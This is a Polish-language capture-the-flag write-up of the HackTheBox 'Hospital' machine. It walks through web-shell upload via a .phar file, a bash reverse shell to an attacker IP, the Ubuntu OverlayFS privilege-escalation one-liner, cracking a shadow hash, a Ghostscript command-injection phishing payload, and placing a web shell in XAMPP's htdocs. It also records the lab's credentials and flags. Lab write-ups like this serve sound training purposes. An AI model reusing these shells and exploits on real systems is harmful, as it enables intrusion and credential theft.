


<link rel="stylesheet" type="text/css" href="style.css">
<style>
body {
    font-family: 'monospace', sans-serif;
    font-size: 20px;
}
img {
    display: block;
    margin: auto;
}
</style>

# HackTheBox Hostipal Writeup
Writeup wykonany przez:
- Wojciech Hajduk 252988
- Dominik Hałubiec 253024
## Rekonesans
Po podłączeniu się do maszyny przez `OpenVPN` wykonaliśmy podstawowy skan programem `nmap`

 \
W ten sposób udało nam się znaleźć dwie strony na portach `443` oraz `8080`<br><br>


Stworzenie konta pozwoliło nam dokonać przeglądu strony. Znaleźliśmy możliwość dodawania plików. Postanowiliśmy skupić się na tej opcji, ponieważ nie znaleźliśmy innych możliwych wektorów ataku.

 

Dodatkowo wykonalismy skan strony przy pomocy narzędzia `gobuster` w celu znalezienia dodatkowych podstron.

 

## Uzyskanie flagi user
 
Folder `/uploads/` dał nam wskazówkę, aby pokierowac się w strone poszukania jakiejś słabości pola browse oraz upload. Wykonaliśmy kilka testów wrzucajać śmieciowe pliki oraz pytajać się ChatuGPT czy istnieje jakis sposób na wykorzystanie tego wektoru. Jednym z rozwiązań jest próba implementacji pliku z rozszerzeniem `phar` zamiast `php`. Plik `phar` umożliwi nam wykonanie ataku `Reverse Shell` na hoscie. 
> https://sekurak.pl/phar-zlo-w-php-ktore-czai-sie-juz-10-lat-pierwsze-exploity/

Udalo się odnaleźć na githubie projekt `PownyShell` który nam to umożliwi: 
>https://github.com/flozz/p0wny-shell/blob/master/shell.php

 

Wykorzystując `WebShella` poprzez pobranie na serwer pliku `shell.phar` byliśmy w stanie utworzyć `Reverse Shell` do maszyny z Kali Linuxem.
```bash
/usr/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.88/2137 0>&1'
```

Po zmianie serwera oraz czterech restartach udało nam się uzyskać dostęp do `Reverse Shella`:
 
 

Rozejrzeliśmy się po serwerze i zauważyliśmy, że jest to Linux postawiony na WSL. 

 

Googlujac dalej znaleźliśmy podatność na `Ubuntu` dla wersji `23.04` która może nas zainteresować:
> CVE-2023-2640 & CVE-2023-32629

Oraz studiująć wątek na reddicie:
> https://www.reddit.com/r/selfhosted/comments/15ecpck/ubuntu_local_privilege_escalation_cve20232640/?utm_content=title&utm_medium=post_embed&utm_name=400dad1168544491a0500188da451d7c&utm_source=embedly&utm_term=15ecpck

Spróbowaliśmy użyć komendy przygotowanej przez jednego z redditorów:
```bash
setcap cap_setuid+eip l/python3; mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os; os.setuid(0); os.system("id")'
```

 

Po wykonaniu złożonej komendy udało nam się uzyskać dostęp do konta użytkownika root, z którego poziomu byliśmy w stanie zdobyć interesujący nas login i hasło.

 

```
drwilliams:$6$uWBSeTcoXXTBRkiL$S9ipksJfiZuO4bFI6I9w/iItu5.Ohoz3dABeF6QWumGBspUW378P1tlwak7NqzouoRTbrz6Ag0qcyGQxW192y/
drwilliams:$6$uWBSeTcoXXTBRkiL$S9ipksJfiZuO4bFI6I9w/iItu5.Ohoz3dABeF6QWumGBspUW378P1tlwak7NqzouoRTbrz6Ag0qcyGQxW192y/:19612:0:99999:7:::
```
Analiza hasha:
 

>drwilliams: qwe123!@#

Za pomoca uzyskanego loginu i hasła byliśmy w stanie zalogować się na pocztę, która jest na porcie `443`:

 \
 

Z wiadomości w mailu byliśmy w stanie wywnioskować, że należy użyć rozszerzenia `.eps`. Dostaliśmy jeszcze informację o `GhostScript`, które okazało się narzędziem do obsługi plików `PostScript` i `PDF`. Poszukaliśmy do niego podatności i udało się znaleźć:
> Ghostscript command injection (CVE-2023-36664)

Znaleźliśmy w internecie przykładowe użycie tej podatności

> https://github.com/jakabakos/CVE-2023-36664-Ghostscript-command-injection

Zgodnie z instrukcjami wysłano maila z payloadem oraz uruchomiono serwer HTTP na potwierdzenie otwarcia wiadomości. 
 

Na początku nie zauważyliśmy, że dołączaliśmy netcata w wersji na Linuxa. Po dodaniu paczki netcata w wersji Windowsowej uzyskaliśmy łącznąć, a Pan Brown odpalił nasz plik. W następnym mailu wrzucamy już plik który uruchamia naszego netcata do wykonania `ReverseShell` na komputer z Win.
 
 \
 

Po przeszukaniu komputera na puplicie znaleziono pierwsza flagę:
 
 \
 

> Flaga user: 
d36fdaf3e2f5e9ce340494f9fa46ea1b

## Uzyskanie flagi root

Przeglądając pliki zauważyliśmy skrypt `ghostscript.bat`. Po uruchomieniu otrzymaliśmy hasło oraz login do komputera (Windows) Pana Browna. 
> drbrown: chr!$br0wn

 <br>

Tutaj utknęliśmy, nie wiedzieliśmy jak się wziąć za to. Za pierwszym razem błądziliśmy. Wrócilismy do początku. Czytając artykuły z Windows Servera zwrócilismy uwagę na liczbe otwartych portów w dokumentacji co skłoniło nas do ponownej analizy wyników nmapa. Większość rzeczy to `Windows RPC`. Nie wiedziąc za bardzo co to, zaczeliśmy szukać informacji w internecie. Jak się okazało `RPC` lub `Remote Procedure Call` to usługa, która pomaga ustanowić i utrzymać komunikację między różnymi aplikacjami systemu Windows. Usługa RPC działa w oparciu o protokoły RPC, które tworzą niskopoziomową komunikację procesową między różnymi aplikacjami.

Szukając dalej informacji natrafilismy na „poradnik” jak można korzystać z tych kanałów 
> https://www.hackingarticles.in/active-directory-enumeration-rpcclient/

  

Z pomocą komendy `querydispininfo` byliśmy wstanie wyświetlić zawartość workgroupy.

 

Z wyników uruchomionej komendy zauważyliśmy, że użytkownik Guest ma dostep tak samo jak Administrator do zawartosci serwera. To pozwoliło nam przypuścić, że z konta użytkownika Brown zalogowanego jako Guest na serwer, jesteśmy w stanie zobaczyc co jest zainstalowane na Windows Server.

Następnie wróciliśmy do konta drbrowna gdzie zauważyliśmy, że strona jest hostowana przy pomocy `XAMPPa` (Z doświadczenia kolegi). Dodaliśmy do folderu przygotowany już wcześniej skrypt w `phar` dla `ReverseShell`. Wiedząc, że XAMPP wczytuje wszystko z katologu `htdocs`.

 

Przy pomocy curla zaciagnęliśmy spreparowany już wcześniej plik, zmieniając rozszerzenie na php. 
Nastepnie w przeglądarce udało się wejść na podstronę i uzyskać flagę roota.

 <br>
<br>
 
 
 
